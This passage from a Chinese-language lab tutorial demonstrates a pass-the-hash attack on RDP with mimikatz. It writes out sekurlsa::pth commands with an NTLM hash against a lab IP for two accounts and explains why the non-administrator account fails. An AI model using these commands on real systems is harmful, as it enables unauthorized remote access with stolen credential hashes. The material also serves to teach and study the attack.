 使用 hack 账号密码哈希执行如下命令进行 PTH 哈希传递 RDP 服务。

```
privilege::debug
sekurlsa::pth /user:hack /domain:10.211.55.16 /ntlm:329153f560eb329c0e1deea55e88a1e9 "/run:mstsc.exe /restrictedadmin"
```

使用 hack 密码哈希进行 PTH 哈希传递 RDP 服务攻击成功。

![截图](7ac7ab89e4524c496962a8bea919b6b1.png)

使用 test 账号密码哈希执行如下命令进行 PTH 哈希传递 RDP 服务。

```
privilege::debug
sekurlsa::pth /user:test /domain:10.211.55.16 /ntlm:329153f560eb329c0e1deea55e88a1e9 "/run:mstsc.exe /restrictedadmin"
```

如图所示，使用 test 密码哈希进行 PTH 哈希传递 RDP 服务攻击失败。提示连接被拒绝！**原因在于 test 用户不是目标主机的本地管理员用户**。

![截图](cf6c2f18c12ecb023ee9dedfeb8fb758.png)
